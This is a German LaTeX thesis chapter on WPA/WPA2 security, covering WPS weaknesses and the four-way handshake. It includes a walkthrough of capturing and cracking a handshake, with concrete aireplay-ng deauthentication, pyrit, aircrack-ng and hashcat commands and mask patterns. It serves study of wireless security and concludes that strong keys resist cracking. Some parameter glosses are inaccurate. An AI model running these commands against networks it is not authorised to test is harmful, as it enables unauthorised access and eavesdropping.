\chapter{Wi-Fi Protected Access (WPA)}
\label{ch:wpa}

\section{WPA Einführung}
Das \gls{wpaLabel} Protokoll wurde als notwendiger Nachfolger des \gls{wepLabel} Protokolls definiert.
Auch war der weiterführender, sehr umfangreichen Standard \textit{\gls{ieeeLabel} 802.11i} in Arbeit, war aber zum Zeitpunkt als \gls{wepLabel} geknackt wurde noch nicht abgeschlossen. So wurde Anfangs 2003 die ersten zertifizierten \gls{wpaLabel}-fähigen \gls{wlanLabel}-Geräte auf den Markt gebracht.
Seit September 2004 gibt es zertifizierte \gls{wpa2Label} Netzwerkgeräte. Der \gls{wpa2Label} entspricht nun dem \textit{\gls{ieeeLabel} 802.11i} Standard.\footcite{Wi-Fi_Protected_Access__Wikipedia_2015-04-10}\footcite{WPA2__Wikipedia_2015-04-10}
\gls{wpaLabel} nutzt \gls{tkipLabel} zur Verschlüsselung, während \gls{wpa2Label} \gls{aesLabel} verwendet.

\subsection{Sicherheit}
Der \gls{wpa2Label} Standard gilt bis heute als sicher und sollte als einziger Standard verwendet werden.

Da \gls{wpaLabel} und \gls{wpa2Label} sehr viele Ähnlichkeiten aufweisen, wird folgend der Begriff \gls{wpaLabel} übergreifend für beide Standards verwendet. Bei Differenzen wird die jeweilige Version explizit genannt.

Ein erfolgreicher Angriff muss via Bruteforce und Wörterbuch Angriff geschehen, was relativ unmöglich ist, vorausgesetzt es wird ein sicherer \gls{pskLabel} verwendet (mind. 16 zufälligen alphanumerischen Zeichen).

Die ganze Sicherheit basiert auf dem \gls{pskLabel}.
Sobald der bekannt ist, kann eine Verbindung vollständig abgehört werden.
Sprich trotz einem sicherem Schlüssel, kann jeder Netzteilnehmer aktive Verbindungen der anderen abhören, insofern die nicht anderswo verschlüsselt werden (z.B. mit \gls{httpsLabel}).


\subsection{Authentifizierungs-Varianten}
\gls{wpaLabel} bietet nebst der \gls{pskLabel} Methode (auch als \textit{\gls{wpaLabel}-Personal} bekannt), auch eine \textit{enterprise} Methode an, bei der ein Authentifizierung-Server jeden Nutzer einzeln authentifiziert und für jede Sitzung einen neuen \gls{pmkLabel} Schlüssel generiert.
Dieses \textit{enterprise} Protokoll wird oft in Firmen angewendet, lohnt sich aber für den privaten Gebrauch nicht, da der Einrichtungsaufwand und Betrieb eines eigenen Servers zu hoch ist.
Deshalb wird in dieser Arbeit auf die \gls{pskLabel} Methode eingegangen.


\subsubsection{WPS Standard}
Der \gls{wpsLabel} Standard entspricht nicht einer eigener Zugriffs Methode, sondern soll das Einrichten von sicheren \gls{pskLabel} beim Client erleichtern.

Dazu gibt es folgende vier Methoden:\footcite{Wi-Fi_Protected_Setup_-_Wikipedia_the_free_encyclopedia_2015-04-10}
\begin{itemize}
	\item \textbf{PIN:} Ein 8-stelliger PIN des einen Gerätes muss auf dem anderen eingegeben werden.
	\item \textbf{Push button:} Per Kopfdruck am \gls{apLabel} wird eine zweiminütige Beitrittsphase des Netzwerkes gestartet.
	\item \textbf{\gls{nfcLabel}:} Die Daten werden via \gls{nfcLabel} ausgetauscht (was nur innerhalb kurzer Distanz möglich ist).
	\item \textbf{\gls{usbLabel}:} Die Netzinformationen werden via externen \gls{usbLabel} Storage ausgetauscht.
\end{itemize}

Die PIN Methode gilt als besonders unsicher, da lediglich eine 7-stellige Zahl erraten werden muss (die letzte entfällt, da sie einer Checksumme entspricht).
Als Gegenmassnahme kann eine automatische zeitliche Sperre nach fehlgeschlagenen Versuchen eingestellt werden.\footcite{viehboeck_wps_2015-04-10}

\textit{Push button} und \textit{\gls{nfcLabel}} sind anfällig auf ungewollte Nutzer, wenn der \gls{apLabel} an einem unbewachten Ort steht und sich so jemand selbst authentifizieren kann.


\subsection{Schlüsselaustausch}
Voraussetzung für den gewöhnlichen Schlüsselaustausch ist der Besitz des \gls{pskLabel} (entspricht dem \textit{passphrase}).
Dieser Schlüssel kann aus 8 bis 63 druckbaren \gls{asciiLabel} Zeichen bestehen.

\subsubsection{Four-Way Handshake}
%\begin{wrapfigure}{r}{0.5\textwidth}
%	
\includegraphics[width=1.0\linewidth]{images/wpa/four-way-handshake.png}
%	\caption[WPA: The four-way handshake]{WPA: \textit{The four-way handshake} (Quelle: \cite[][151]{WrightCache201503})}
%\end{wrapfigure}
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.8\linewidth]{images/wpa/four-way-handshake.png}
	\caption[WPA: The four-way handshake]{WPA: \textit{The four-way handshake} (Quelle: \cite[][151]{WrightCache201503})}
\end{figure}
Der \textit{Four-Way Handshake} bezeichnet den Zugriff eines Clients auf das Netzwerk.
Bei einer Verbindung zum Netzwerk wird beidseitig aus dem \gls{pskLabel} und der \gls{ssidLabel} der \gls{pmkLabel} berechnet.
Dafür wird 4096 der Hash (HMAC-SHA1) des \gls{pskLabel} berechnet. (Dies macht einen \gls{glos:bruteforceLabel}-Angriff so aufwändig.)
Der \gls{apLabel} überträgt dem Client eine zufällige Zahl (\textit{A-nonce}), welche der Client mit einer weiteren zufälligen Zahl (\textit{B-nonce}) ergänzt.
Der \gls{apLabel} berechnet aus den zufälligen Zahlen und den beiden \gls{macLabel}-Adressen einen temporären \gls{ptkLabel}, der pro Session neu generiert wird. Der \gls{ptkLabel} wird zudem auch während einer Session periodisch ausgetauscht.\footcite[][40f.]{WrightCache201503}

%\begin{figure}[H]
%	\centering
%	
\includegraphics[width=0.6\linewidth]{images/wpa/four-way-handshake.png}
%	\caption[WPA: The four-way handshake]{WPA: \textit{The four-way handshake} (Quelle: \fullcite[][151]{WrightCache201503})}
%\end{figure}

Um den Schlüssel zu knacken werden zusammengefasst folgende Informationen gebraucht:
\begin{itemize}
	\item Netzwerk \gls{ssidLabel}
	\item \textit{A-nonce}
	\item \textit{B-nonce}
	\item \gls{macLabel}-Adresse des Clients
	\item \gls{macLabel}-Adresse des \gls{apLabel}'s
	\item \gls{micLabel} (entspricht einem Hash der Nutzdaten, um Verfälschung erkennen zu können).
\end{itemize}

Nebst während dem \textit{Four-Way Handshake}, werden diese Information auch regelmässig wiederholt.
So muss nicht zwingend ein vollständiger \textit{Four-Way Handshake} vorliegen.


\section{Angriffe (WPA)}
%p148    \footcite[][148f.]{WrightCache201503}:

\subsection{Angriff Methode}
Für einen erfolgreichen Angriff muss ein \textit{Four-Way Handshake} vorliegen.
Dazu müssen die Aktivitäten eines Channel wie in \cref{subsec:wep_crack_tutorial} abgehört und gespeichert werden (z.B. mit \textit{airtport}).
Während der Aufzeichnung, müssen mindestens 2 Teile des \textit{Four-Way Handshake} aufgezeichnet werden.

Falls sich keine Clients neu anmelden, können bestehende Clients rausgeschmissen werden
\begin{lstlisting}[style=lstStyleFramed]
aireplay-ng --deauth 1 -a A4:52:6F:8A:9F:01 -c 2c:f0:ee:20:7c:32 en0
\end{lstlisting}
\begin{tabular}{l l}
	\textbf{Parameter} & \textbf{Bedeutung}\\
	-{}-deauth 1 & 64 packages to deauthenticate\\
	-a	& \gls{apLabel} \gls{macLabel}-Address\\
	-c	& Client \gls{macLabel}-Address\\
	en0 & Interface
\end{tabular}

\subsection{Bruteforce}
\todo{Bruteforce bei glossary ergänzen}
Der Rest des Angriffs kann offline erfolgen. Durch Ausprobieren wird nach einem gültigen \gls{pskLabel} gesucht, der einen gültigen \gls{micLabel}-Hash berechnet. Dies wird für alle Keys durchprobiert.
Es gibt verschiedene Programme die den \gls{glos:bruteforceLabel} durchführen können.
Einige davon sind im \cref{subsec:wpa_attack_tutorial} dokumentiert.

Die Berechnung ist je nach Schlüssellänge sehr intensiv und wird daher oft statt von der \gls{cpuLabel}, von der \gls{gpuLabel} ausgerechnet.
Zudem kann Berechnung anstatt von einem \textit{\gls{glos:onPremiseLabel}} Rechner, in der \textit{"`\gls{glos:cloudLabel}"'} berechnet werden.


\subsection{Konkreter Angriff auf ein WPA Netzwerk}
\label{subsec:wpa_attack_tutorial}

Folgend wurden drei verschiedene Programme (\textit{crack utilities}) verwendet: \textit{Aircrack-ng}\footcite{Aircrack-ng_2015-04-06}, \textit{Pyrit}\footcite{pyrit_Google_Project_Hosting_2015-04-13} und \textit{Hashcat}\footcite{hashcat_advanced_password_recovery_2015-04-13}.

\subsubsection{Daten bereinigen}
Angenommen ein gültiger \textit{Four-Way Handshake} wurde aufgezeichnet, entfernen wir initial mit \textit{Pyrit} alle überflüssigen Daten aus dem \textit{capture}:
\begin{lstlisting}[style=lstStyleFramed]
pyrit -r yhxXXXX.cap -o yhxXXXX_strip.cap strip]
\end{lstlisting}
Anschliessend wird nach der gewünschten \gls{ssidLabel} gefragt.
Bei meinen Tests schrumpften Dateien von 20\,MB auf 8\,KB.
Es werden nur noch die Handshakes von \gls{wpaLabel} und die \gls{ivLabel}'s von \gls{wepLabel} behalten.

\subsubsection{Aircrack-ng Bruteforce}
Anschliessend kann bereits ein \textit{aircrack-ng} \gls{glos:bruteforceLabel} Angriff ausgeführt werden:
\begin{lstlisting}[style=lstStyleFramed]
aircrack-ng yhxXXXX_strip.cap -w wordlist.txt -b A4:52:6F:8A:9F:01
\end{lstlisting}
\begin{tabular}{l l}
	\textbf{Parameter} & \textbf{Bedeutung}\\
	*.cap & \textit{capture}-Datei mit den Handshakes\\
	-w	& Textdatei mit allen zu probierenden \gls{pskLabel}'s (einer pro Zeile)\\
	-b	& \gls{bssidLabel} des \gls{apLabel}\\
\end{tabular}

\subsubsection{Pyrit Bruteforce}
Alternativ kann mit Pyrit ebenfalls ein \gls{glos:bruteforceLabel} Angriff durchgeführt werden:
\begin{lstlisting}[style=lstStyleFramed]
pyrit -r yhxXXXX_strip.cap -i wordlist.txt -b a4:52:6f:8a:9f:01 attack_passthrough
\end{lstlisting}
\begin{tabular}{l l}
	\textbf{Parameter} & \textbf{Bedeutung}\\
	*.cap & \textit{capture}-Datei mit den Handshakes\\
	-i	& Textdatei mit allen zu probierenden \gls{pskLabel}'s (einer pro Zeile)\\
	-b	& \gls{bssidLabel} des \gls{apLabel}\\
	attack\_passthrough & die ausgerechneten Hashes sollen nicht zwischengespeichert werden\\
\end{tabular}


\subsubsection{Hashcat Bruteforce}
Um auch noch mit \textit{Hashcat} einen \gls{glos:bruteforceLabel} Angriff durchzuführen, muss die \textit{.cap} Datei in eine \textit{.hccap} Datei umgewandelt werden. Dies kann mit \textit{aircrack-ng} erledigt werden.

\begin{framed}
	\textbf{Bemerkung:} Dazu wird allerdings die neuste \textit{aircrack-ng} Version "`1.2-rc2"' benötigt, welche nicht in \textit{Homebrew} vorhanden ist und daher selbst kompiliert werden muss. Die Installation ist auf der \textit{aircrack-ng} Website beschrieben.\\
	Auch wenn beim Kompilieren Fehler geworfen werden, befindet sich anschliessend ein \textit{aircrack-ng} im \textit{src} Ordner, mit der die \textit{.hccap} Datei generiert werden kann.
\end{framed}

\begin{lstlisting}[style=lstStyleFramed]
./aircrack-ng -J YHX-02427 yhxXXXX_strip.cap
\end{lstlisting}
\begin{tabular}{l l}
	\textbf{Parameter} & \textbf{Bedeutung}\\
	-J & \gls{ssidLabel} des Netzwerkes\\
	*.cap & \textit{capture}-Datei mit den Handshakes\\
\end{tabular}
Nach der Eingabe, werden alle verfügbaren \gls{ssidLabel}'s aufgelistet, von denen die gewünschte ausgewählte werden kann.
Es wird eine neue Datei mit \textit{[\gls{ssidLabel}].hccap} erstellt. In unserem Fall: \textit{YHX-02427.hccap}.

Nebst dem werden einem \textit{A-nonce (anonce)} , \textit{B-nonce (snonce)}und der \textit{\gls{micLabel} (Key MIC)} angezeigt.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\textwidth]{images/wpa/conversion_cap2hccap.png}
	\caption{Strip capture -- \textit{aircrack-ng}}
\end{figure}

Wie bisher können wir erneut einen Wörterbuch Angriff starten:
\begin{lstlisting}[style=lstStyleFramed]
hashcat -m 2500 YHX-02427.hccap wordlist.txt
\end{lstlisting}
\begin{tabular}{l l}
	\textbf{Parameter} & \textbf{Bedeutung}\\
	-m & Hash Type (2500 = WPA/WPA) (\textit{hashcat -h} um alle anzuzeigen)\\
	*.hccap & \textit{capture}-Datei mit den Handshakes\\
	*.txt & Textdatei mit allen zu probierenden \gls{pskLabel}'s (einer pro Zeile)\\
\end{tabular}

Zudem kann \textit{Hashcat} auch Passwörter mit Platzhalter knacken:\footcite{mask_attack_hashcat_wiki_2015-04-13}
\begin{lstlisting}[style=lstStyleFramed]
hashcat -m 2500 -a 3 --pw-min=19 --pw-max=19 YHX-02427.hccap -1 ?l?d ?1?1?1?1-?1?1?1?1-?1?1?1?1-?1?1?1?1
\end{lstlisting}
\begin{tabular}{l l}
	\textbf{Parameter} & \textbf{Bedeutung}\\
	-m & Hash Type (2500 = WPA/WPA) (\textit{hashcat -h} um alle anzuzeigen)\\
	-a 3 & \textit{Attack mode} (3 = Bruteforce)\\
	--pw-min/max & min. und max. Länge des \gls{pskLabel}\\
	*.hccap & \textit{capture}-Datei mit den Handshakes\\
	-1 & Pattern mit alphanumerisch (nur Kleinbuchstaben \textit{?l} und Zahlen \textit{?d})\\
	\[mask\] & Passwort Maske (mit zuvor definiertem Pattern (\textit{-1}))\\
\end{tabular}
Obwohl wir sehr viele Angaben zum Passwort haben und die Länge nicht übermässig gewählt ist, können wir das Knacken vergessen.
Die Dauer geht weit über 10 Jahre.

%$ 36^{16} = 7.95866111 * 10^{24} $

% (36^16) / 1180 / 60 / 60 / 24 / 365
% 2.13870752767523 * 10^{15}
% 1.18k words/sec

%If no other windows:
%1.23k
%Kill all other services
%1.23k

% normale nutzung der cpu
% hashcat -m 2500 -a 3 --pw-min=19 --pw-max=19 YHX-02427.hccap -1 ?l?d 99nl-uk1v-wrke-?1?1?1?1
% 1.13k words
% 73308/1679616 (4.36%) -> 23.5 min
% (36^4) / 1130 / 60 = 24.773097345

\begin{figure}[H]
	\begin{minipage}[b]{.45\linewidth}
	   	\pgfplotsset{width=1.0\textwidth, height=0.7\textwidth}
		\centering
		\begin{tikzpicture}
			\begin{axis}[
				xlabel={$x$ = Passwortlänge},
				ylabel={$t$ = Rechenzeit \textbf{Stunden}}
			]
				\addplot[draw=blue][domain=0:4.8]{(36^x) / 1180 / 60 / 60};
			\end{axis}
		\end{tikzpicture}
		\subcaption{Rechenzeit in \textbf{Stunden}}\label{fig:1a}
	\end{minipage}%
	\begin{minipage}[b]{.45\linewidth}
		\pgfplotsset{width=1.0\textwidth, height=0.7\textwidth}
		\centering
		\begin{tikzpicture}
			\begin{axis}[
				xlabel={$x$ = Passwortlänge},
				ylabel={$t$ = Rechenzeit \textbf{Jahren}}
			]
				\addplot[draw=blue][domain=0:7.6]{(36^x) / 1180 / 60 / 60 / 24 / 365};
			\end{axis}
		\end{tikzpicture}
		\subcaption{Rechenzeit in \textbf{Jahren}}\label{fig:1b}
	\end{minipage}
	\caption{Rechenzeit in Abhängigkeit der Passwortlänge}\label{fig:1}
\end{figure}



%IMAGE: hashcat_bruteforce_pattern

%\todo{plot function}
%\todo{Intro mit aktuellem Netzwerk beschreiben -> yhx -> passwort bekannteheiten}
%\todo{YHX-xxxx immer ausschreiben, da image auch so ist}
%\todo{Titel schreibt über version: 3.3}

%\todo{Doppel Dash in code listings kontrollieren}
%
%\todo{Performance Tests -> wörterbuchangriff erweitern}
%\todo{Genaue Versionen der Programme}



